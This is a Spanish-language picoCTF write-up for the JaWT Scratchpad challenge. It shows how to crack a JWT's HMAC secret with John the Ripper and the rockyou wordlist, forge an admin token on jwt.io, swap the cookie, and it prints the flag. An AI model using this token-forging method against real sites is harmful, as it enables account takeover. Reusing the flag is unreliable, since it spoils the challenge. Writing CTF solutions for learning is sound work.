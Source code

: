 ## Objetivo 

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

---
## Datos de acceso al nivel 

http://jupiter.challenges.picoctf.org:61864

---
## Solución 
lo primero es acceder a la pagina http://jupiter.challenges.picoctf.org:61864

![[Pasted image 20231009221200.png]]

después nos tenemos que registrar con con nuestro nombre 

![[Pasted image 20231009221255.png]]

dentro lo único que tenemos que hacer es usar una herramienta que nos permita ver las cookies en mi caso use la herramienta [Cookie-Editor - Microsoft Edge Addons](https://microsoftedge.microsoft.com/addons/detail/cookieeditor/neaplmfkghagebokkhpjpoebhdledlfi)

![[Pasted image 20231009221433.png]]

prestamos atención al campo jwt y copiamos el valor, en mi caso 

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiVGFkZW8ifQ.RmvxOEWZqsbVm2pwekITizBHt1Ra1OvW6zR3hdG2OMg
```

una ves tenemos este valor debemos guardarlo en un archivo para procesarlo en una terminal Linux

```bash
touch hash   

echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiVGFkZW8ifQ.RmvxOEWZqsbVm2pwekITizBHt1Ra1OvW6zR3hdG2OMg" >> hash   
```

después de tener nuestro archivo debemos verificar nuestro diccionario de palabras para el ataque, esto se hace de la siguiente forma 

``` bash
ls /usr/share/wordlists/  
# amass  dirb  dirbuster  fasttrack.txt  fern-wifi  john.lst  legion  metasploit  nmap.lst  rockyou.txt.gz  sqlmap.txt  wfuzz  wifite.txt 

sudo gzip -d  /usr/share/wordlists/rockyou.txt.gz
#[sudo] password for kali: 

ls /usr/share/wordlists                          
amass  dirb  dirbuster  fasttrack.txt  fern-wifi  john.lst  legion  metasploit  nmap.lst  rockyou.txt  sqlmap.txt  wfuzz  wifite.txt

head /usr/share/wordlists/rockyou.txt 
# 123456
# 12345
# 123456789
# password
# iloveyou
# princess
# 1234567
# rockyou
# 12345678
# abc123
```

después de hacer esto, en la carpeta o ruta donde tenemos nuestro archivo anteriormente creado se hace lo siguiente  

``` bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt 

# Using default input encoding: UTF-8
# Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
# Will run 2 OpenMP threads
# Press 'q' or Ctrl-C to abort, almost any other key for status
# ilovepico        (?)     
# 1g 0:00:00:08 DONE (2023-10-10 00:51) 0.1213g/s 897739p/s 897739c/s 897739C/s # iloverob4live345..ilovemymother@
# Use the "--show" option to display all of the cracked passwords reliably

```

como podemos ver la contraseña es `ilovepico` por lo que ahora solo queda ir al sitio [JSON Web Tokens - jwt.io](https://jwt.io/#debugger-io) y pegar la cookie que metimos en el archivo

![[Pasted image 20231009225435.png]]

como podemos ver una ves ingresada nos muestra algo de información, lo que tenemos que hacer es cambiar el nombre de usuario `user` por la palabra `admin`

![[Pasted image 20231009225457.png]]

después de esto solo queda ingresar la contraseña `ilovepico` en el siguiente campo 
![[Pasted image 20231009230712.png]]

![[Pasted image 20231009225900.png]]

una ves hecho esto copeamos nuevamente la cookie que ahora esta modificada 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```

volvemos a la pagina http://jupiter.challenges.picoctf.org:61864 justo donde estábamos logeados 
y modificamos la cookie cambiándola por la nueva, esto con ayuda de la extensión que teníamos ya descargada 

![[Pasted image 20231009225553.png]]

ya guardada solo tenemos que refrescar la pagina y la contraseña aparecerá

![[Pasted image 20231009231051.png]]

**Resultado Final**
```
picoCTF{jawt_was_just_what_you_thought_1ca14548}
```

---
## Notas Adicionales 

---
## Referencias 
[JSON - Wikiwand](https://www.wikiwand.com/en/JSON)
[JSON Web Token Introduction - jwt.io](https://jwt.io/introduction)
[JSON Web Tokens - jwt.io](https://jwt.io/#debugger-io)
https://microsoftedge.microsoft.com/addons/detail/cookieeditor/neaplmfkghagebokkhpjpoebhdledlfi


